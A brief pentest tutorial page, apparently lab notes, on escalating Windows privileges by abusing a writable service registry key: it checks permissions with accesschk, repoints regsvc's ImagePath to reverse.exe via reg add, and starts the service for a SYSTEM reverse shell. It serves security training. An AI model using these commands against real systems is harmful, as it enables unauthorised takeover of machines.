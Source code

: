 # Weak Registry Permissions

### **Enumeration**

Find a service running with SYSTEM privileges (SERVICE\_START\_NAME).

```POWERSHELL
sc qc <servizio>
```

### **Exploitation**

Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):

{% code overflow="wrap" %}
```powershell
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```
{% endcode %}

Overwrite the ImagePath registry key to point to the reverse.exe executable you created:

{% code overflow="wrap" %}
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```
{% endcode %}

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```powershell
net start regsvc
```
